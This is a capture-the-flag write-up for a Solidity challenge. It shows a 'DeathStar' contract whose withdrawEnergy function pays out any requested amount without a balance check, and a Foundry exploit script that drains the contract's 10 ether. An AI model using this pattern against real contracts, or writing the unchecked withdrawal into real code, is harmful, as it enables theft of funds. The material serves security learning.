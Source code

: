 The Setup contract initializes both the `Deathstar` and `DarksidePool` contracts with 10 ether each. Our task is to make `Setup:isSolved` return true. This function will return true only when the balance of Deathstar becomes zero. Therefore, we need to find a way to drain the balance of Deathstar in order to solve the challenge.


```solidity
function withdrawEnergy(uint256 amount) external {

        
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed");

    balances[msg.sender] = 0; 
}
```

In the `DeathStar:withdrawEnergy` function, it takes an amount parameter as input. The function then transfers the specified amount to the msg.sender (the caller) using a low-level call function. After the transfer, it updates the balance of msg.sender to zero.

So, if we simply call this function and pass `10 ether` as the amount, the contract's balance will be drained.

The below is the exploit script.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";

interface IDeathStar{
    function withdrawEnergy(uint256 amount) external; 
}

interface ISetup{
    function deathStar() external view returns(IDeathStar);
}

contract createExploit is Script{
    function run()public{
        address _setup=/* YOUR+_SETUP_ADDRESS*/;
        vm.startBroadcast();
        ISetup setup=ISetup(_setup);
        IDeathStar deathStar=setup.deathStar();
        deathStar.withdrawEnergy(10 ether);
        vm.stopBroadcast();
    }
}

```


<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>